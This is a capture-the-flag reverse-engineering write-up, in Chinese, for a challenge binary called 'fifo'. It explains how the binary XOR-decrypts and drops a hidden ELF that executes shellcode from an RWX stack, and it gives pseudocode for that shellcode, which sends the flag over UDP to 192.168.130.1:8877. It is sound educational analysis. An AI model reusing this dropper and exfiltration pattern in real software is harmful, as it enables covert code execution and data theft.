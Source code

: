 # fifo `Reverse` [250]

## Short Solution

執行 `./fifo` ，發現它建立了 `/tmp/bnpkevsekfpk3` 資料夾及 `/tmp/khodsmeogemgoe` 的 ELF，透過 `ps aux` 查看 process，發現 `/tmp/khodsmeogemgoe` 在執行，透過 gdb attach 上去即可在 stack 找到 flag。

![](./assets/gdb.png)

## Long Solution

### fifo

在 `main` 一開始，透過 xor 的方式將 `dirname`、`filename` 和 `bin` 解密。

<img src="./assets/fifo-main-1.png" style="zoom:80%;" />

<img src="./assets/fifo-decrypt.png" style="zoom:70%;" />

<div style="page-break-after: always;"></div>

接下來會將解密後的 `bin` 寫入 `/tmp/khodsmeogemgoe` ，fork 並執行。

<img src="./assets/fifo-main-2.png" style="zoom:80%;" />

在 `main` 的最後會建立 `/tmp/bnpkevsekfpk3` 資料夾，並在 `/tmp/bnpkevsekfpk3/aw3movsdirnqw` 建立 fifo，再將 key 寫入到 fifo。

<img src="./assets/fifo-main-3.png" style="zoom:80%;" />

### /tmp/khodsmeogemgoe

checksec 發現它存在 RWX segment。

<img src="./assets/bin-checksec.png" style="zoom:50%;" />

它會讀取 fifo 的內容，將 payload 透過相同的 decrypt function 解密，因為 stack 是 RWX segment，可以直接將 buf 當成 code 執行。

<img src="./assets/bin-main.png" style="zoom:60%;" />

### Shellcode

透過 gdb 設定中斷點，並 follow fork child，可以直接 dump 出 shellcode。

````shell
b close
set follow-fork-mode child
r
````

停在 `call rax` ，發現 `$rdi` (`payload`) 就是 flag。
透過 `dump memory shellcode $rax $rax+216` 將 shellcode 存下來。

透過 radare2 deassembly shell code，分析過後整理大致如下。

```c
int fd = syscall(0x29, 2, 2, 0x11);  // socket
syscall(0x36, fd, 1, 6, [1], 4); // setsockopt
while 1:
    // sendto
	struct sockaddr addr{ 2, 0, 8877, 0xC0A88201, 1, 0 };
    syscall(0x2C, fd, [1], 0x18, 0, addr, 0x10);
    syscall(0xE6, 0, 0, [3], 0); // clock_nanosleep
```

shellcode 會開啟 socket，往 `192.168.130.1:8877/udp` 送出 flag。
